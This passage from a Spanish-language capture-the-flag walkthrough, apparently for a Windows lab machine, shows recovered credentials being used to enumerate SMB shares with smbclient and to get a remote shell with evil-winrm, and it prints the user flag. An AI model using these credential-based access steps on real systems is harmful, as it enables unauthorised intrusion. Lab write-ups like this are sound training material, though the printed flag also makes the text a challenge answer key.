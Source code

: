 Vemos que funciona perfectamente, por lo que vamos a realizar un poco de `fuzzing` con dichas credenciales en el servidor `SAMBA`.

```shell
smbclient -L //<IP>/ -U hope
```

Info:

```
Password for [WORKGROUP\hope]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Admin remota
        C$              Disk      Recurso predeterminado
        IPC$            IPC       IPC remota
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 192.168.5.68 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

No veremos ningun recurso compartido que se haya creado nuevo, por lo que no nos interesa ninguno.

Recordemos que tenemos el puerto `5985` (`WinRM`) abierto, por lo que vamos a probar a conectarnos con la herramienta de `evil-winrm`.

## Escalate user hope

### Evil-winrm

```shell
evil-winrm -i <IP> -u hope -p 'loser'
```

Info:

```
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\hope\Documents> whoami
admin\hope
```

Veremos que hemos accedido de forma correcta, por lo que vamos a investigar un poco, pero antes leeremos la `flag` del usuario.

> user.txt

```
aacd4aebb5743ba45d3b4591ac03ace1
```
